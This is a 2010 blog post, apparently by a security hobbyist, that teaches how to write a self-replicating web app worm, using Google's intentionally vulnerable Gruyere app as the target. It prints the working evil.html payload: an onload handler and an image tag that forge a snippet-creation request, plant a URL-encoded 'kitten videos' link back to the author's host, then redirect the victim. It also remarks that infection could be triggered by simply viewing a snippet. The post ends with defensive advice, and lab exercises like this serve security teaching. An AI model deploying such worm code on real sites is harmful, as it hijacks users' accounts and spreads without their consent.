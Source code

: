 ```yaml
---
title: "how to write a web app worm"
date: "2010-11-06"
layout: post
---
```


When I say web app worm I mean a web site specific worm such as twitter. Twitter [has been picked](http://www.metro.co.uk/tech/842197-wtf-worm-sees-twitter-swamped-by-goat-sex) on (they should be because it's a meaningless app) when it comes to [web app worms](http://www.guardian.co.uk/technology/pda/2010/sep/22/twitter-onmouseover-worm) so why stop now. There are other types of worms that could include web servers and databases but that won't be addressed in this write up. The web app I'll pick on for this example is [Gruyere](http://google-gruyere.appspot.com/). Gruyere is an intentional vulnerable application that a handful of folks over at google wrote to point out some of the major vulnerabilities within web applications. Gruyere is very twitter like so my example would be relevant to other applications that function in similar ways.


Most web site worms spread because they allow javascript to be inserted somewhere into the web application. For example in twitter when a status is updated (via a moronic "tweet") you are allowed to insert words, sentences, and even links to other interesting sites. If twitter allows you to input all this information what do they block? Javascript is a well known programming language that you should never allow to be inserted into your web application. Even though many web developers know this they continually make mistakes and allow javascript to be inserted into their web apps. There are different categories of javascript attacks such as [XSS](http://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29) and [XSRF](http://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29), I'm not a big fan of this naming convention but  you should be familiar with the terms and what they mean. Most all web app worms are spread via the XSRF attack. Basically a XSRF attack is where javascript (possibly other languages) is inserted into the web app, that javascript will then make a request on behalf of the user. This request could be malicious in nature or in case of the twitter worm examples just for fun. The example I'll be going over will be a classic XSRF attack where I'll insert javascript to make requests on behalf of the user.

Let's get started. I went ahead and created several accounts within Gruyere to demo the attack, in this case Travis will be the attacker.

![](images/Selection_082.png "Selection_082")](http://travisaltman.com/wp-content/Selection_082.png)

To create a web app worm first you'll need to discover a vulnerability within a web app that allows you to insert javascript. Luckily the "New Snippet" functionality will allow us to insert javascript. Now to find vulnerable input that allows you to insert javascript may not be that easy. In order to successfully insert javascript you'll need to be able to insert certain characters such as "<" and ">". One great tool to find these characters which will in turn find vulnearbilities is [Firefox addon named "XSS Me"](https://addons.mozilla.org/en-US/firefox/addon/7598/). XSS Me will tell if an input will allow certain characters. So now that we have vulnerable input how do we get this worm started? As the attacker I will place the following link into a new snippet.

![](/assets/Selection_083.png "Selection_083")

Now all I'm doing here is creating a link to my evil code, to create a worm you don't have to keep your evil code in another location you could insert all the evil code you need into the vulnerable web app itself. Most of the time inserting all of your evil code into the app itself would be ideal but it really depends on what the vulnerable app will allow you to do. Now that we've inserted a link to our evil code what exactly does our evil code look like, below is the source code in evil.html.

```html
<p <body onload="Wait();"><img src="http://google-gruyere.appspot.com/251625447516/newsnippet2?snippet=%3Ca%20href%3D%22http%3A%2F%2Ftravisaltman.com%2Fevil.html%22%3Ekitten%20videos%3C%2Fa%3E">
<script>
function Redirect()
{
window.location="http://google-gruyere.appspot.com/251625447516/";
}
function Wait()
{
setTimeout("Redirect()", 1000);
}
</script>
```

Now let's break evil.html down line by line. All the magic is happening in line one. The first thing that is written is the html paragraph tag "<p", this is done specifically for this app because anything after the <p> tag would allow other characters. Next is the html body tag with an "onload" action. An action in malicious code is common so that the attacker perform other steps, another common action event is an onmouseover event. Once the page loads it will call the "Wait" function, we'll come back to that in just a bit. After the wait is the image tag (<img>) to make the XSRF request for me. The request is to add a new snippet to whomever clicks on the link. In this case if a victim were to click on my link it would create a new snippet for them with a link saying "kitten videos". To add a new snippet within Gruyere the url would be the following

```html
http://google-gruyere.appspot.com/251625447516/newsnippet2?snippet=
```

Anything after the equal sign would show up as a new snippet so I inserted the following "malicious" snippet

```html
%3Ca%20href%3D%22http%3A%2F%2Ftravisaltman.com%2Fevil.html%22%3Ekitten%20videos%3C%2Fa%3E
```

So what does all that mess mean? If you take all that mess and url decode it's the following.

```html
<a href="http://travisaltman.com/evil.html">kitten videos</a>
```

In this case I had to [url encode](http://meyerweb.com/eric/tools/dencoder/) my attack so that it would work, this is not uncommon when performing these types of attacks. So as the attacker I'm placing a link inside a new snippet for the victim that says "kitten videos" but that link is still pointing to my evil.html. Now let's get back to the wait function. I won't break it down line by line but what happens is when the page fully loads the code will jump to the wait function on line seven. After that setTimeout will execute after one second which calls the Redirect function, the Redirect function will redirect the user to the home page of Gruyere. The whole point of everything after line one is to simply redirect the user back to the homepage after the attack. So now that we have planted the seed of attack let's see what happens when Alice clicks on our evil link.

![](/assets/Selection_084.png "Selection_084")

Just by clicking on our "evil" link Alice created a snippet that she herself didn't write, it was our malicious javascript that created the link. Now let's login as Bob and click on the "kitten videos" in Alice's snippets.

![](/assets/Selection_086.png "Selection_086")

Bob has now updated his snippets just by simply clicking on the link in Alice's snippet. You can now see how this can snowball much like other web app worms have spread as well. So in only a few lines of code I have created a worm that will replicate throughout the application infecting whomever clicks on my malicious link. The twitter worm was [very simple](http://www.wait-till-i.com/2010/09/26/new-twitter-exploit-how-it-works/) as well. I could have just as easily made it that if a user were to simply view my snippet that they would get infected as well. Once you allow javascript to be inserted into your app that are a number of things an attacker can do to manipulate your application.

Hopefully this small write up at least some what explains how web app worms get created and how simple they can be. Developers of major applications such as twitter need to better test and review code they have written. As one of my links points out a seventeen year old kid exploited the mighty twitter, just goes to show you how well major applications are focusing on their security. As a user I would never click on a link that you don't trust and turn off javascript for web apps that don't need javascript in the first place. If another worm pops up in twitter or facebook I won't be sad.
